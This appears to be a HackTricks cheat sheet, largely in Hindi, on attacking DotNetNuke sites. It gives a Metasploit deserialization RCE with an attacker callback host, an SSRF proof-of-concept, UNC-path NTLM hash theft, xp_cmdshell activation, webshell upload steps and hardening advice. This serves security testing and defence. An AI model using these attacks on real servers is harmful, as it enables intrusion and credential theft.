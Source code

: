 # DotNetNuke (DNN)

{{#include ../../banners/hacktricks-training.md}}

## DotNetNuke (DNN)

यदि आप DNN में **administrator** के रूप में प्रवेश करते हैं तो **RCE** प्राप्त करना आसान है, हालांकि पिछले कुछ वर्षों में कई *unauthenticated* और *post-auth* तकनीकों को प्रकाशित किया गया है। निम्नलिखित चीट-शीट आक्रामक और रक्षात्मक कार्य के लिए सबसे उपयोगी प्राइमिटिव्स को एकत्र करती है।

---
## संस्करण और वातावरण गणना

* *X-DNN* HTTP प्रतिक्रिया हेडर की जांच करें - यह आमतौर पर सटीक प्लेटफ़ॉर्म संस्करण का खुलासा करता है।
* स्थापना विज़ार्ड `/Install/Install.aspx?mode=install` में संस्करण लीक करता है (बहुत पुराने इंस्टॉलेशन पर पहुंच योग्य)।
* `/API/PersonaBar/GetStatus` (9.x) निम्न-privilege उपयोगकर्ताओं के लिए `"dnnVersion"` वाला JSON ब्लॉब लौटाता है।
* लाइव इंस्टेंस पर आप जो सामान्य कुकीज़ देखेंगे:
* `.DOTNETNUKE` – ASP.NET फॉर्म्स प्रमाणीकरण टिकट।
* `DNNPersonalization` – XML/serialized उपयोगकर्ता प्रोफ़ाइल डेटा (पुराने संस्करण - नीचे RCE देखें)।

---
## अनधिकृत शोषण

### 1. कुकी डेसिरियलाइजेशन RCE  (CVE-2017-9822 & फॉलो-अप)
*प्रभावित संस्करण ≤ 9.3.0-RC*

`DNNPersonalization` हर अनुरोध पर डेसिरियलाइज किया जाता है जब अंतर्निहित 404 हैंडलर सक्षम होता है। इस प्रकार तैयार XML मनमाने गैजेट श्रृंखलाओं और कोड निष्पादन की ओर ले जा सकता है।
```
msf> use exploit/windows/http/dnn_cookie_deserialization_rce
msf> set RHOSTS <target>
msf> set LHOST  <attacker_ip>
msf> run
```
मॉड्यूल स्वचालित रूप से पैच किए गए लेकिन अभी भी कमजोर संस्करणों (CVE-2018-15811/15812/18325/18326) के लिए सही पथ चुनता है। शोषण **बिना प्रमाणीकरण** के 7.x–9.1.x पर और 9.2.x+ पर *सत्यापित* निम्न-privilege खाते के साथ काम करता है।

### 2. सर्वर-साइड अनुरोध धोखाधड़ी (CVE-2025-32372)
*प्रभावित संस्करण < 9.13.8  –  पैच अप्रैल 2025 में जारी किया गया*

पुराने `DnnImageHandler` फिक्स का बायपास एक हमलावर को सर्वर को **मनमाने GET अनुरोध** जारी करने के लिए मजबूर करने की अनुमति देता है (सेमी-ब्लाइंड SSRF)। व्यावहारिक प्रभाव:

* आंतरिक पोर्ट स्कैन / क्लाउड तैनाती में मेटाडेटा सेवा खोज।
* उन होस्टों तक पहुंचें जो अन्यथा इंटरनेट से फ़ायरवॉल किए गए हैं।

प्रूफ-ऑफ-कॉन्सेप्ट (`TARGET` और `ATTACKER` को बदलें):
```
https://TARGET/API/RemoteContentProxy?url=http://ATTACKER:8080/poc
```
The request is triggered in the background; monitor your listener for callbacks.

### 3. NTLM Hash Exposure via UNC Redirect  (CVE-2025-52488)
*Affected versions 6.0.0 – 9.x (< 10.0.1)*

विशेष रूप से तैयार की गई सामग्री DNN को **UNC path** का उपयोग करके संसाधन लाने का प्रयास करने के लिए मजबूर कर सकती है जैसे `\\attacker\share\img.png`। Windows खुशी-खुशी NTLM बातचीत करेगा, सर्वर-खाता हैश को हमलावर को लीक करेगा। **10.0.1** में अपग्रेड करें या फ़ायरवॉल पर आउटबाउंड SMB को बंद करें।

### 4. IP Filter Bypass  (CVE-2025-52487)
यदि प्रशासक *Host/IP Filters* पर निर्भर करते हैं प्रशासन पोर्टल सुरक्षा के लिए, तो ध्यान रखें कि **10.0.1** से पहले के संस्करणों को एक रिवर्स-प्रॉक्सी परिदृश्य में `X-Forwarded-For` को हेरफेर करके बायपास किया जा सकता है।

---
## Post-Authentication to RCE

### Via SQL console
**`Settings → SQL`** के तहत एक अंतर्निहित क्वेरी विंडो साइट डेटाबेस के खिलाफ निष्पादन की अनुमति देती है। Microsoft SQL Server पर आप **`xp_cmdshell`** को सक्षम कर सकते हैं और कमांड उत्पन्न कर सकते हैं:
```sql
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
GO
xp_cmdshell 'whoami';
```
### Via ASPX वेबशेल अपलोड
1. **`Settings → Security → More → More Security Settings`** पर जाएं।
2. **Allowable File Extensions** में `aspx` (या `asp`) जोड़ें और **Save** करें।
3. **`/admin/file-management`** पर जाएं और `shell.aspx` अपलोड करें।
4. इसे **`/Portals/0/shell.aspx`** पर ट्रिगर करें।

---
## Windows पर विशेषाधिकार वृद्धि
एक बार जब कोड निष्पादन **IIS AppPool\<Site>** के रूप में प्राप्त हो जाता है, तो सामान्य Windows विशेषाधिकार वृद्धि तकनीकें लागू होती हैं। यदि बॉक्स कमजोर है, तो आप इसका लाभ उठा सकते हैं:

* **PrintSpoofer** / **SpoolFool** का उपयोग *SeImpersonatePrivilege* का दुरुपयोग करने के लिए।
* *Service Accounts* से बचने के लिए **Juicy/Sharp Potatoes**।

---
## हार्डनिंग सिफारिशें (ब्लू टीम)

* कम से कम **9.13.9** (SSRF बायपास को ठीक करता है) या बेहतर **10.0.1** (IP फ़िल्टर और NTLM मुद्दे) में **Upgrade** करें।
* स्थापना के बाद अवशिष्ट **`InstallWizard.aspx*`** फ़ाइलें हटा दें।
* आउटबाउंड SMB (पोर्ट 445/139) ईग्रेस को अक्षम करें।
* DNN के भीतर के बजाय एज प्रॉक्सी पर मजबूत *Host Filters* लागू करें।
* यदि अनुपयोगी हो तो `/API/RemoteContentProxy` तक पहुंच को ब्लॉक करें।

## संदर्भ

* Metasploit `dnn_cookie_deserialization_rce` मॉड्यूल दस्तावेज़ – व्यावहारिक अनधिकृत RCE विवरण (GitHub)।
* GitHub सुरक्षा सलाह GHSA-3f7v-qx94-666m – 2025 SSRF बायपास और पैच जानकारी।
{{#include ../../banners/hacktricks-training.md}}
